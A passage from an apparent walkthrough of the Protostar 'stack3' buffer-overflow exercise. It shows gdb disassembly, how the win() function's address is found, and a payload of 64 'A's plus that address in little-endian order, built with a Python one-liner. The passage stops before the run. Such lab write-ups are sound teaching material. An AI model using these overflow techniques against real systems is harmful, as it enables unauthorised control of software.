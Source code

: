 ```
0x08048471 <main+57>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:	call   eax  	<--- I missed the obvious call
```

I went back to step 1, and listed the binaries functions:

```
(gdb) info functions
All defined functions:

File stack3/stack3.c:
int main(int, char **);
void win(void);
```

Disassembling our win function, we see that this simply prints something to the screen. Assumably a 'win' string:

```
(gdb) disas win
Dump of assembler code for function win:
0x08048424 <win+0>:	push   ebp
0x08048425 <win+1>:	mov    ebp,esp
0x08048427 <win+3>:	sub    esp,0x18
0x0804842a <win+6>:	mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:	call   0x8048360 <puts@plt>
0x08048436 <win+18>:	leave  
0x08048437 <win+19>:	ret    
End of assembler dump.
```

The start address of this function is: "0x08048424" which is what we want to replace our current "BBBB" value with. Reversed, this will be:

	0x24 0x84 0x04 0x08

We reverse it to adhere to the endian-ness of the CPU. I will stop reminding you of this at some point, I promise. Our payload should now be:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x24\x84\x04\x08
```

This can be done with python and piped directly into the input within gdb:

```
$(python -c 'print "A"*64 + "\x24\x84\x04\x08"')
```

I ran the above and stored the output into a file ""/tmp/stack3". Opening GDB once again, I dropped a breakpoint on the 'call EAX' instruction towards the end of the file:

```
(gdb) b *main+61
Breakpoint 1 at 0x8048475: file stack3/stack3.c, line 22.
```

Ran the program with the file containing the python output as it's input:
